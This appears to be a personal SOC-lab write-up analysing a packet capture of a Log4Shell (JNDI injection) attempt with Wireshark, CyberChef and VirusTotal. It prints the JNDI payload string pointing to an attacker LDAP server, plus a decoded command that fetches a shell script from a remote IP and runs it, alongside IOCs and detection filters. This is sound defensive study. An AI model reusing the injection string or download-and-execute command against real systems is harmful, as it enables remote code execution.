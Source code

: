 #  Remote Code Execution Attempt via Log4j (JNDI Injection)

## Overview

In this lab, I documents the investigation of a malicious packet capture (PCAP) containing a real-world Log4j (Log4Shell) exploit attempt. The objective was to detect signs of remote code execution (RCE), identify Indicators of Compromise (IOCs), and validate attacker infrastructure using open-source tools. This project demonstrates skills in threat hunting, packet analysis, payload decoding, and threat intelligence.

##  Objective

- Analyze a suspicious `.pcapng` file  
- Detect Log4j exploit attempts via JNDI injection  
- Decode any hidden payloads  
- Confirm if any callback/C2 behavior occurred  
- Extract IOCs and validate threat infrastructure
  
---

##  Tools Used


- **Wireshark** (v4.4.6)  
- **CyberChef** (Base64 decoding)  
- **VirusTotal** (IP reputation lookup)

----

## Detection Techniques Used


- Wireshark display filters
- TCP stream inspection
- CyberChef decoding
- IP reputation check via VirusTotal

---

### Step 1 : Initial Packet Capture Review

- Loaded the `.pcapng` file into **Wireshark**
- Since this was an offline PCAP, interface selection was irrelevant





This shows suspicious traffic where JNDI strings are present in HTTP request payloads—an indicator of potential Log4j exploitation attempts.

![Initial inspection: frame contains "jndi"](Screnshotslog4j/framecontainsjndi.png)

---

### Step 2: Applied Filter to Detect Log4j Exploits

**Filter Used:** ip contains "jndi"


**Goal:** Detect `${jndi:...}` pattern commonly used in Log4Shell attacks

**Findings:**

- Multiple HTTP POST requests to `198.71.247.91` (SERVER IP)
- Suspicious `User-Agent` headers containing: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/...}


---

### Step 3: Isolate Callback Behavior

This screenshot captures both the use of the composite filter and a specific request containing a Base64-encoded command in the `User-Agent` header.

![Callback filter applied in Wireshark](Screnshotslog4j/checkC2.png)


**Goal:** Identify callback attempts to attacker-controlled servers (C2).

---

### Step 4: Decode the Payload with CyberChef

**Base64 Payload Extracted:**

d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==



**Decoded with CyberChef:**  

wget http://62.210.130.250/lh.sh ; chmod +x lh.sh; ./lh.sh

 
This screenshot shows the decoding process in **CyberChef**, where the Base64-encoded string is transformed into a shell command. The output reveals the intent to download and execute a remote shell script, indicating a clear attempt at remote code execution.

![CyberChef decoding Base64 payload](Screnshotslog4j/cyberchef_decode.png)


**Interpretation:**

- Downloads a shell script from `62.210.130.250`
- Makes it executable and runs it
- Confirms a remote code execution attempt

---

### Step 5: Validate Malware Host with VirusTotal
 
This screenshot shows that multiple security vendors (e.g., BitDefender, ESET, Dr.Web) flagged this IP as **Malicious**, **Malware**, or **Phishing**.

![VirusTotal analysis of 62.210.130.250](Screnshotslog4j/virustotal_62.210.130.250.png)

**Queried IP:** `62.210.130.250`  
**Result:** Flagged as malicious by 12+ security vendors

---

## 🔎 Additional Observations

- Attacker LDAP server `45.137.21.9:1389` delivered the malicious redirect
- Script `lh.sh` likely contains second-stage malware or C2 payload

---

##  Filters Used

- `ip contains "jndi"`  
- `tcp.flags == 0x002 and ip.src == 198.71.247.91`  
- `frame contains "ldap"`  
- `http contains "Base64"`  
- `http.request.method == "POST"`

---

## 🚨 Indicators of Compromise (IOCs)

| Type               | Value                          |
|--------------------|--------------------------------|
| Attacker LDAP IP   | `45.137.21.9`                  |
| Malware Host IP    | `62.210.130.250`               |
| Targeted Server IP | `198.71.247.91`                |
| Payload Pattern    | `${jndi:ldap://...}`           |
| Payload Script     | `lh.sh` (via `wget`)           |

---

## 💡 Summary of Insights

- Real-world **Log4j RCE** attempt detected
- Payload was **Base64 encoded** to obscure intent
- Malicious infrastructure still active at time of analysis
- No full C2 stream detected, but **SYN packets suggest callbacks**
  
---

## 📚 Lessons Learned

- Log4j exploits can hide in HTTP headers like `User-Agent`
- Always decode suspicious strings to understand payload behavior
- Outbound SYNs may indicate attempted **C2 communication**
- Cross-referencing IOCs with services like **VirusTotal** increases confidence


---

## ✅ Conclusion

This concludes **Case Study #1** in the Network Threat Hunting Lab.  
It demonstrates a full-stack analysis pipeline suitable for my:

- SOC analyst internship applications  
- Blue team/IR skill demonstration  
- Personal cybersecurity lab documentation

---

* This personal lab project demonstrates my understanding of network protocols, threat patterns, and detection techniques used in real SOC environments.

